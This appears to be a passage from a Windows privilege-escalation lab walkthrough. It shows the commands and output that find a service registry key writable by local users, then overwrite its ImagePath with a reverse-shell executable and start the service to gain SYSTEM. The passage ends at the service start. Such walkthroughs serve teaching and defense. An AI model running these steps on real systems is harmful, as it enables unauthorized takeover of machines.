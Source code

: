 ```cmd
C:\PrivEsc>.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc                                     
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

C:\PrivEsc>sc qc regsvc     
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

> **Note**: the `AUTHORITY\INTERACTIVE` group has full control over the registry entry. This is a pseudo group comprised of all users who can log onto the system locally, which includes our user.

We can see that we have the correct permissions and that the service is executed as **SYSTEM**.

Now let's query th service registry entry and check the current values:

```cmd
C:\PrivEsc>reg query HKLM\System\CurrentControlSet\Services\regsvc

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc\Security
```

We can overwrite the ImagePath registry value to point to a malicious program:

```cmd
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse-shell.exe /f
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse-shell.exe /f
The operation completed successfully.

C:\PrivEsc>net start regsvc
net start regsvc
```
